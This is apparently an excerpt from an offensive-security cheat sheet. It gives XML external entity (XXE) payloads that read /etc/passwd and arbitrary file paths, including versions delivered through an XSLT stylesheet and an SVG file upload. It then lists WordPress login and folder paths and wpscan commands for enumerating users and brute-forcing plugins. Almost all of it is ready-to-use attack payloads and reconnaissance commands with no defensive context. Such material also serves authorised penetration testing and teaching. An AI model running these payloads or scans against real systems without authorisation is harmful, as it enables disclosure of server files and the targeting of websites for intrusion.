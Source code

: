 ```http
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

### XXE Through File Upload
#### XSLT
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="document('<path>')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### SVG
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<path>" > ]>
<svg width="256px" height="256px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="12" x="0" y="16">&xxe;</text>
</svg>
```

## WordPress

### Standard Pages and Folders
#### License Files
- `/license.txt`
- `/readme.html`

#### Login Pages
- `/wp-admin/login.php`
- `/wp-admin/wp-login.php`
- `/login.php`
- `/wp-login.php`

#### Resource Folders
- `wp-content/uploads/` resources folder
- `wp-content/themes/` themes folder
- `wp-includes/` plugins, scripts, and widgets

### Plugin Enumeration
Use the tool [wpscan](https://github.com/wpscanteam/wpscan):
```sh
wpscan --update
wpscan --url <host> --enumerate u,p  # List users and installed plugins
wpscan --url <host> --enumerate ap,at,cb,dbe  # Bruteforce installed plugins
```
